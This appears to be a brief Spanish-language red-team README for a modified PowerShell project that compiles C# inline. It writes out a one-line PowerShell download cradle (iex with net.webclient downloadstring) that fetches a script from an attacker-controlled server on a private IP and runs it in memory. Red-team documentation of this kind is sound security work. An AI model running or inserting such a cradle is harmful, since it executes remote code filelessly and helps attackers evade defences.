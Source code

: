 ############################# REDTEAM ################################



Modificación del código de https://github.com/thec0nci3rge/PS_with_inline_csharp_compilation para cargar artefacto desde url y ponerlo en memoria directamente con:

iex(new-object net.webclient).downloadstring('http://192.168.11.129:8000/execute_inline_csharp_code_within_powershell.ps1')

La idea incial de ejecutar desde powershell codigo compilado al vuelo C#  -> [John Hammond's VIDEO](https://www.youtube.com/watch?v=EwEwRLedeKI)




#####################################################################
